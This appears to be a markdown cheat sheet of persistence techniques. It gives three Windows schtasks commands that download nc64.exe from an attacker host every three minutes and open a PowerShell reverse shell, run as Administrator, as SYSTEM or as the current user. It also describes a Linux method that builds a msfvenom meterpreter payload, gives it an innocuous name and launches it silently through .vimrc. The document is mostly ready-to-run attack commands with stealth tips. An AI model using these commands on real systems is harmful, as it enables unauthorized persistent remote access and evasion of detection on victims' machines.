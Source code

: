 ## Technique: Scheduled Tasks (Windows)

To create a scheduled task that runs every 3 minutes, as Administrator, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /ru "Administrator" /rp "password" /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

To create a scheduled task that runs every 3 minutes, as NT Authority/SYSTEM, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /ru "NT Authority\SYSTEM" /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

To create a scheduled task that runs every 3 minutes, as current user, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```
## Technique: Reverse shell via Vim (Linux)

The following works when a local user can run vim as sudo:

- Create a meterpreter payload in ELF format. Choose the name that doesn't raise suspicion:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.188 LPORT=4444 -f elf > .vim_rc
```
- Upload it to the target machine (/home/<username> should be ideal)
- Add the following line in .vimrc file (if it does not exist, create one). This is a vim configuration file and loads everytime vim / vi is started.

```bash
:silent !/home/ptlabmachine/.vim_rc &
```  
- The above command will run ```.vim_rc``` file in silent mode as a job in the background. This is necessary to eliminate all user interruptions while executing the reverse shell code.  
